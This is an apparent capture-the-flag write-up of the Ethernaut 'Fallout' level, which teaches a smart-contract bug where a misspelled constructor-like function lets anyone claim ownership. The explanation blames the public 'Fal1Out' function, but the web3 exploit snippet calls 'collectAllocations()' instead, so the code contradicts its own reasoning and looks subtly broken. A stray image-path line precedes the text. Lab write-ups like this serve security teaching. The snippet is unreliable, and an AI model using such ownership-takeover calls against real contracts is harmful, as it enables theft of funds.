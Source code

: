 # Fallout

# Problem Statement
```
Claim ownership of the contract below to complete this level.
Things that might help
- Solidity Remix IDE
```

# Solution
Note that the "constructor" function is not actually a constructor because of the "1" in Fal1Out. Also notice that is a public method so anyone can call it.

Gain ownership:
```
let sig = web3.eth.abi.encodeFunctionSignature("collectAllocations()")
let ethValue = web3.utils.toWei('0.0000001', 'ether')
await web3.eth.sendTransaction({
  to: contract.address,
  from: player,
  data: sig,
  value: ethValue
})
```

We've completed this lesson!

# Key Learnings
- Read contract code thoroughly and be aware of possible characters that look similiar to other characters.